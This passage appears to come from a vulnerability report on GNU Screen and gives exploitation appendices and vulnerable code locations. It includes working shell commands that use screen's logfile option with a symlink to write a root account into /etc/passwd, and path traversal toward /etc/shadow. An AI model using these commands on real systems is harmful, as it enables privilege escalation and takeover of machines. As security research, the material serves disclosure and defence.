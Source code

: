 **Basic File Creation**:
```bash
screen -L /tmp/test_file -d -m echo "exploit_content"
# Creates file with root:utmp ownership
```

**Symlink Attack**:
```bash
ln -s /etc/passwd /tmp/passwd_link
screen -L /tmp/passwd_link -d -m echo "malicious:x:0:0:root:/root:/bin/bash"
# Modifies /etc/passwd with elevated privileges
```

**Path Traversal**:
```bash
screen -L ../../../etc/shadow -d -m echo "compromised_shadow_entry"
# Accesses files outside current directory
```

#### Authentication Bypass Exploitation

**Logic Error Exploitation**:
```python
# Exploit single & vs && logic error
# Affects password validation in configured environments
# Requires specific password conditions for successful bypass
```

#### Division by Zero DoS

**Terminal Manipulation**:
```python
# Manipulate terminal dimensions to trigger division by zero
# Causes process crash and potential system instability
# Resource exhaustion through multiple session creation
```

### Appendix B: Code Analysis Results

#### Vulnerable Code Locations

**screen.c (Primary Vulnerability)**:
- Lines 676-798: Logfile handling logic
- Line 305: Authentication password comparison
- Insufficient path validation and permission checking

**canvas.c (DoS Vulnerability)**:
- Lines 589-594: Division by zero in canvas rendering
- Missing validation for division operation

**process.c (Input Validation)**:
- Line 6184: Uninitialized variable usage
- Input processing vulnerabilities

### Appendix C: Exploit Artifacts
